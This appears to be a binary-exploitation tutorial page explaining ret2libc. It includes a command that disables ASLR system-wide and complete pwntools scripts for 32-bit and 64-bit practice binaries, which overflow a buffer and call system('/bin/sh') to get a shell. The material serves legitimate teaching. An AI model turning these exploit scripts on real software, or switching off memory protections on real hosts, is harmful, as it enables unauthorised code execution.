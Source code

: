 ```yaml
---
description: The standard ROP exploit
---
```


# ret2libc

A ret2libc is based off the `system` function found within the C library. This function executes anything passed to it making it the best target. Another thing found within libc is the string `/bin/sh`; if you pass this string to `system`, it will pop a shell.

And that is the entire basis of it - passing `/bin/sh` as a parameter to `system`. Doesn't sound too bad, right?

{% file src="../../../.gitbook/assets/ret2libc \(1\).zip" caption="ret2libc" %}

## Disabling ASLR

To start with, we are going to disable ASLR. ASLR randomises the location of libc in memory, meaning we cannot \(without other steps\) work out the location of `system` and `/bin/sh`. To understand the general theory, we will start with it disabled.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Manual Exploitation

### Getting Libc and its base

Fortunately Linux has a command called `ldd` for dynamic linking. If we run it on our compiled ELF file, it'll tell us the libraries it uses and their base addresses.

```text
$ ldd vuln-32 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc2000)
	/lib/ld-linux.so.2 (0xf7fd3000)
```

We need `libc.so.6`, so the base address of libc is `0xf7dc2000`.

> Note: Libc base and the system and /bin/sh offsets may be different for you. This isn't a problem - it just means you have a different libc version. Make sure you use **your** values.

### Getting the location of system\(\)

To call system, we obviously need its location in memory. We can use the `readelf` command for this.

```text
$ readelf -s /lib32/libc.so.6 | grep system
1534: 00044f00    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
```

The `-s` flag tells `readelf` to search for symbols, for example functions. Here we can find the offset of system from libc base is `0x44f00`.

### Getting the location of /bin/sh

Since `/bin/sh` is just a string, we can use `strings` on the dynamic library we just found with `ldd`. Note that when passing strings as parameters you need to pass a **pointer** to the string, not the hex representation of the string, because that's how C expects it.

```text
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```

`-a` tells it to scan the entire file; `-t x` tells it to output the offset in hex.

### 32-bit Exploit

```python
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

### 64-bit Exploit

Repeat the process with the `libc` linked to the 64-bit exploit \(should be called something like `/lib/x86_64-linux-gnu/libc.so.6`\).

Note that instead of passing the parameter in after the return pointer, you will have to use a `pop rdi; ret` gadget to put it into the RDI register.

```text
$ ROPgadget --binary vuln-64 | grep rdi

[...]
0x00000000004011cb : pop rdi ; ret
```

```python
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```

## Automating with Pwntools

Unsurprisingly, pwntools has a bunch of features that make this much simpler.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # Search for the string + grab 1st occurence

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

The 64-bit looks essentially the same.

> Note: Pwntools can simplify it even more with its ROP capabilities, but I won't showcase them here.

